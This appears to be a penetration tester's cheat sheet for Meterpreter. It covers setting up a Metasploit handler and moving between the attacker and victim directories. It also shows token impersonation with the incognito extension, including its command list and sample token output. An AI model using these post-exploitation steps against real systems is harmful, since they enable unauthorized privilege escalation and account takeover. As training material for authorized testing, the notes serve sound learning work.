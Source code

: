 Meterpreter

[ + ] Meterpreter Basics.
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

[ + ] Setting up a handler.
use exploit/multi/handler
show payloads
Find your meterpreter payload to listen for.

[ + ] Change directory on both victim and attacking machines.
--> Local Change Directory (Attacking Machine):
lcd /localDir/
--> Change directory in your shell (Vitim Machine):
cd

[ + ] Token Impersonation:
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

meterpreter> use incognito
Loading extension incognito...success.
meterpreter> help

Incognito Commands
==================

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes for every token         

meterpreter>

"What we will need to do first is identify if there are any valid tokens on this system. Depending on the level of access that your exploit provides, you are limited in the tokens you are able to view. When it comes to token stealing, SYSTEM is king. As SYSTEM, you are allowed to see and use any token on the box."

--> Pro Tip - Administrators don’t have access to all the tokens either, but they do have the ability to migrate to SYSTEM processes, effectively making them SYSTEM and able to see all the tokens available.

meterpreter> list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

